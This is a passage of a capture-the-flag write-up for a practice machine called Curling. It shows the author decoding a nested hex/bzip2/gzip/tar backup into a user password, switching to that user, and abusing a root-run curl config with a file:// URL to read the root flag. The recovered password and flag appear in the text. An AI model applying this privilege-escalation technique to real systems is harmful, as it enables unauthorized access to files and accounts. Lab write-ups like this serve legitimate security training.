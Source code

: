 ```bash
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

Let's reverse the `hex password` with `xxd`.

```bash
www-data@curling:/tmp$ xxd -r password_backup > backup
www-data@curling:/tmp$ file backup 
backup: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv backup backup.bz2
www-data@curling:/tmp$ bzip2 -d backup.bz2
www-data@curling:/tmp$ file backup 
backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix
www-data@curling:/tmp$ mv backup backup.gz
www-data@curling:/tmp$ gzip -d backup.gz
www-data@curling:/tmp$ file backup 
backup: bzip2 compressed data, block size = 900k
www-data@curling:/tmp$ mv backup backup.bz2
www-data@curling:/tmp$ bzip2 -d backup.bz2
www-data@curling:/tmp$ file backup 
backup: POSIX tar archive (GNU)
www-data@curling:/tmp$ mv backup backup.tar
www-data@curling:/tmp$ tar xvf backup.tar 
password.txt
www-data@curling:/tmp$ cat password.txt 
5d<wdCbdZu)|hChXll
```

We can log as `floris`.

```bash
$ su floris
Password: 5d<wdCbdZu)|hChXll
floris@curling:/home$
```
# Escalation

In `/home/floris/admin-area`, we can find 2 files. First seems to be an url and the `report` seems to be the result of the curl command.
Let's try a `LFI` to read root flag on the box.

```bash
$ cat input 
url = "file:///root/root.txt"
$ cat report 
82c198ab6fc5365fdc6da2ee5c26064a
```

We get the flag !

# Passwd file
